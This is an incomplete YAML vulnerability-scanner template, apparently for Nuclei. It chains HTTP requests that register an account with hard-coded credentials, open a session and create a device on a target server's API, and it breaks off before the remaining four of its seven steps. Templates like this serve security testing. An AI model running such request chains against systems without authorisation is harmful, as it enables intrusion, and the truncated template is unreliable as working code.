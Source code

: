 ```

variables:
  name: "ghostsec"
  password: "ghostsec"
  email: "ghostsec@ghostsec.com"
  unique: "{{rand_base(6)}}"
  str: "{{randstr}}"

flow: http(1) && http(2) && http(3) && http(4) && http(5) && http(6) && http(7)

http:
  - raw:
      - |
        POST /api/users HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{name}}", "email": "{{email}}", "password": "{{password}}", "totpKey": null}

    matchers:
      - type: word
        part: body
        words:
          - '"administrator":'
          - '"fixedEmail"'
        condition: and
        internal: true

  - raw:
      - |
        POST /api/session HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded;charset=UTF-8

        email={{email}}&password={{password}}

    matchers:
      - type: word
        part: body
        words:
          - '"deviceReadonly":'
          - '"expirationTime":'
        condition: and
        internal: true

  - raw:
      - |
        POST /api/devices HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json

        {"name": "{{unique}}", "uniqueId": "{{unique}}"}

    matchers:
      - type: word
        part: body
        words:
          - '"calendarId"'
          - '"groupId":'
        condition: and
        internal: true

    extractors:
```